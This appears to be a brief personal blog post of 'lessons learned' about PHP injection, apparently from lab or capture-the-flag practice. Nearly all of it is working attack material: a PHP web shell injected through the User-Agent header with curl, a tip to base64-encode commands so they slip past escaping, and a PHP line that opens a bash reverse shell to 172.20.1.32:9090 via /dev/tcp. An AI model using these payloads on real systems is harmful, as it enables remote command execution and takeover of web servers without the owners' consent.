 ```yaml
---
layout: post
author: redle
---
```


Some leasons learned...

# PHP Injection:
## Use User Agent to avoid scape ' or "
> curl -K file
> file:
> user-agent = "<?php system($_GET['cmd']) ?>"

## Base64 avoiding special chars:
> Use base64 to send the command, this avoid problem with special chas as : ',",;, and eliminate the scape of these chars.

## PHP Shell:
> <?php system(\"/bin/bash -c 'bash -i >& /dev/tcp/172.20.1.32/9090 0>&1'\");?>

